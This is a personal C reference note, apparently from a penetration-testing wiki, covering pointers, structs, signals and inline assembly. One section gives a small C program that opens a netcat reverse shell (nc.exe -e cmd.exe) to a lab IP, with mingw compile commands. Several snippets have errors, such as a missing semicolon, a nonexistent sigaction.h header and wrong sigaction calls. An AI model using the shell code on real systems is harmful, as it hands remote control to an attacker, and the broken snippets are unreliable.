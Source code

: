# Useful C 

[[Valgrind]] and [[GDB]]/[[Microsoft-Visual-Studios]] your code! 


Stack Versus Heap variable declaration
```c
// stack variables are declared like this:
int stackVariable = 69;

// malloc return a pointer to heap variable and takes a int as size 
int *heapVariable = malloc(sizeof(int));
// then needs to have a value assigned:
*heapVariable = 69;
// Alway free memory after use
free(heapVariable);
```


Structs
```c
struct rectangle {
  int width;
  int height;
};
 struct rectangle my_rec = { 1, 2 }; // Fields can be initialized immediately

  // Access struct members with .
  my_rec.width = 10;
  my_rec.height = 20;

  // You can declare pointers to structs
  struct rectangle *my_rec_ptr = &my_rec;

  // Use dereferencing to set struct pointer members...
  (*my_rec_ptr).width = 30;

  // ... or even better: prefer the -> shorthand for the sake of readability
  my_rec_ptr->height = 10; // Same as (*my_rec_ptr).height = 10;
```

Pointers - [recommended viewing Dave's Garage Youtube video](https://www.youtube.com/watch?v=IrGjyfBC-u0) 
```c
// Pointer are stored memory addresses, they point to memory address where values are stored
// Indirection - a pointer hold the address of values 
// Data at that address that the pointer is pointing to can be access and tranformed

// create a pointer of type byte pointing to memory address 4321;
byte * myPointer = (byte *) 4321;
// Change the value at the point
*myPointer = 0;

// class.memberVariable is member variable of the class 
class->memberVariable // goto to the object pointed to and then get member variable by this name, indicates a pointer to the object, not reference to itself!

// if you do not need to retrieve an entire struct in a function call use pointers
// Passed-by-value retrieve a complete copy, Passed-by-Reference means passing an object in the form of pointer
// One entire structure Vs. One or more Pointer  
int getTotalTheMemberVars(someStruct * pStruct)
{
	return pStruct->PointersToOtherPointers + pStruct->PointersToOtherStructs;
}

// Pointer pointing to the first element of an Array in memory, with the length of the array is like using the array without loading it on to the stack
// The array is "syntactic sugar" for the memory address
// char * contains the address of the first byte of a string in memory
// The size of an array is its actual size, where the pointers is system dependent 32-bit and 64bit
char someText[] = "Subscribe to Dave's Garage on Youtube, he bought Pinball on Windows amongst alot other things!"; // \x00 terminates a string! 
char * pSomeText = someText; 
int aPinballLoses[] = { 1, 2, 3, 4, 5};
int * pPinballLoses = aPinballLoses;

// Pointer arithmetic
// Move by the size of the type that it points to, not one byte!
// Increments point by a single byte
pSomeText++; // One char is one byte move 1 * 8 bits = 1 byte
pPinballLoses++; // 32-bit integers is a 4 byte move 8 + 8 + 8 + 8 or 4*8 = 32 

// Pointers to pointers
//pIndirectPlugOfThePlugOfTheVideo 
//Points to...
//pMicrosoftAndAIModelsIntoResurrectingPinball
char * pMicrosoftAndAIModelsIntoResurrectingPinball = "Microsoft putting Pinball on Windows 11 will make some people switch Windows 11";
char ** pIndirectPlugOfThePlugOfTheVideo = &pMicrosoftAndAIModelsIntoResurrectingPinball;
// So
return *pIndirectPlugOfThePlugOfTheVideo;
// will just return ... pMicrosoftAndAIModelsIntoResurrectingPinball 


// Null != Uninitialised != Void pointer 
// Null pointer points to 0, it is initialed to 0
// Uninitialised pointer random value till it is initialised
// Void pointer is just the address and is not type defined and must be cast to a object pointer before use. It assigned nil type information. Malloc API has allocate memory that can then be told what type of object will stored at that memory
void*
// Hacking the Art of Exploitation - page 55
int void_pointry() 
{
	int i;
	char char_array[5] = {'a','b','c','d','e'};
	int int_array[5] = {1,2,3,4,5}
	char *char_pointer;
	int *int_pointer;
	char_pointer = (char *) int_array; // Typecast into 
	int_pointer = (int *) char_array; // pointer's data type
	for (i=0; i <5; i++) {
		printf("[integer pointer] points to %p, which conatins the char '%c'\n", int_pointer, *int_pointer);
		printf("[char pointer] points to %p, which conatins the int '%c'\n", char_pointer, *char_pointer);
		int_pointer = (int *) ((char *) int_pointer +1);
		char_pointer = (char *) ((int *) char_pointer +1);
	}
}

// Function Pointer is a pointer to a function 
// Beware readability
int add(int a, int b) 
{
	return a + b;
}
// (*pAdd) requires brackets for operator precedence
int (*pAdd)(int,int) = add;
// Bracket are also required for calling a function pointer
int sum = (*pAdd)(5, 3);

```

Processes - Unix
```c
#include <signal.h>
// This is more portable
#include <sigaction.h>


// Handler is a function
// User defined signals
SIGUSR1;
SIGUSR2;
// SegFault Signal
SIGSEGV;

sigaction(SIGINT, handler);
sigaction(SIGTERM, handler);

signal(SIGINT, handler);
signal(SIGTERM, handler);
// SIGKILL cannot be handler - ordered not a request
```

Simple use system to call another binary - see [[Compiling-Exploits]]
```c
#include <stdlib.h>
//#include <stdafx.h> speeds up compile time
// i686-w64-mingw32-gcc shell.c -o shell.exe
// x86_64-w64-mingw32 shell.c -o shell.exe

// Originally from https://snowscan.io/htb-writeup-giddy/#
// But you could replace the system call with anything
int main()
{
    system("nc.exe -e cmd.exe 10.10.10.10 4444");
    return 0;
}
```

[Inline](https://gcc.gnu.org/onlinedocs/gcc/extensions-to-the-c-language-family/how-to-use-inline-assembly-language-in-c-code.html) [[x86-Assembly]], or [[x86-64-Assembly]] - for size considerations see [Size of an asm](https://gcc.gnu.org/onlinedocs/gcc/extensions-to-the-c-language-family/how-to-use-inline-assembly-language-in-c-code.html#size-of-an-asm); The `asm` keyword is a GNU extension. When writing code that can be compiled with [`-ansi`](https://gcc.gnu.org/onlinedocs/gcc/gcc-command-options/options-controlling-c-dialect.html#cmdoption-ansi) and the various [`-std`](https://gcc.gnu.org/onlinedocs/gcc/gcc-command-options/options-controlling-c-dialect.html#cmdoption-std) options, use `__asm__` instead of `asm` (see [Alternate Keywords](https://gcc.gnu.org/onlinedocs/gcc/extensions-to-the-c-language-family/alternate-keywords.html#alternate-keywords)).
```c
int inlineThis() 
{
	// The optional `volatile` qualifier has no effect. All basic `asm` blocks are implicitly volatile.
	__asm__ volatile (" ") X
	// If you use the `inline` qualifier, then for inlining purposes the size of the `asm` statement is taken as the smallest size possible
	__asm__ inline (" " )
}

```
## References

[Windows - C Language Reference](https://learn.microsoft.com/en-us/cpp/c-language/c-language-reference?view=msvc-170)
[GCC](https://linux.die.net/man/1/gcc)
[XinYminutesC](https://learnxinyminutes.com/docs/c/)
[Jacob Sorber Programming with Processes](https://www.youtube.com/playlist?list=PL9IEJIKnBJjFNNfpY6fHjVzAwtgRYjhPw)
[Size of an asm](https://gcc.gnu.org/onlinedocs/gcc/extensions-to-the-c-language-family/how-to-use-inline-assembly-language-in-c-code.html#size-of-an-asm)
[Inline Assembly Lanaguage in C Code - gcc.gnu.org](https://gcc.gnu.org/onlinedocs/gcc/extensions-to-the-c-language-family/how-to-use-inline-assembly-language-in-c-code.html)
[Hacking: The Art of Exploitation, 2nd Edition 2nd ed. by Erickson, Jon (ISBN: 0689145714418)](Hacking: The Art of Exploitation, 2nd Edition 2nd ed. by Erickson, Jon (ISBN: 0689145714418)